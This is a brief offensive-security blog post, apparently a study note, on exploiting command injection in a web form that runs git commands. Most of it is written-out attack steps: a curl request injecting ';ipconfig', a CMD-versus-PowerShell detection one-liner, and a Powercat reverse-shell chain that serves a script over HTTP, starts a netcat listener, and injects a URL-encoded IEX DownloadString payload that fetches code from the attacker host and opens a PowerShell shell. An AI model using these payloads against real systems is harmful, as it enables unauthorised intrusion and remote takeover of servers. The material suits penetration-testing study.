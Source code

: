 ```yaml
---
layout: post
title: CMD Injection
titledate: 08/31/23
tags: ["infosec","offsec", "exploit", "web", "shell", "powershell"]
---
```


some applicagions may allow you to input queries or commands - in these instances we can try to add additional commands to them to see if they are properly filtered or strictly limited to what is allowed

In this example the web page allows you to enter a test command from the system command line for git, so we can grab the query in burp and then alter it to include our cmd

    $ curl -X POST --data 'cmd=git%3Bipconfig' http://192.168.50.50:8000/cmd

If we are targetting windows we can run a check to determine if the cmd executes in cmd or powershell

    $ (dir 2>&1 *`|echo CMD);&<# rem #>echo PowerShell

we may need to url encode the above command

<h4>Powercat</h4>

We can use Powercat to create a reverse shell

    $ /usr/share/powershell-empire/empire/server/data/module_source/management/powercat.ps1

first we serve the script with python
    
    $ python3 -m http.server 80

next we start our netcat listener

    $ nc -nlvp 443

finally we'll use curl to send a url encoded powershell reverse shell cmd to the target with our ip

```powershell
EX (New-Object System.Net.Webclient).DownloadString("http://192.168.1.1/powercat.ps1");powercat -c 192.168.1.1 -p 443 -e powershell
```
   
    $ curl -X POST --data 'cmd=git%3BIEX%20(New-Object%20System.Net.Webclient).DownloadString(%22http%3A%2F%2F192.168.1.1%2Fpowercat.ps1%22)%3Bpowercat%20-c%20192.168.1.1%20-p%20443%20-e%20powershell' http://192.168.50.50:8000/cmd